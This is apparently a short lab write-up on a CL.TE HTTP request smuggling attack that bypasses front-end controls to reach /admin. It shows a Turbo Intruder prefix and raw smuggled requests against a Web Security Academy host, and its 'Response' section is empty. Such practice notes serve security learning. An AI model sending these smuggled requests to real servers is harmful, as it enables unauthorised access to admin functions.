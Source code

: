 

#### Bypass front-end security controls 
##### CL.TE vulnerability

 _Turbo truder initial config

 >   # This will prefix the victim's request. Edit it to achieve the desired effect.
    `prefix = '''GET /admin HTTP/1.1
`X-Ignore: X'''
- 1st request

```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
0
```

```
GET /admin HTTP/1.1
X-Ignore: X
```

---
- 2nd, 3rd, 4th & 5th
---

```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
0
```


---
Response:

---
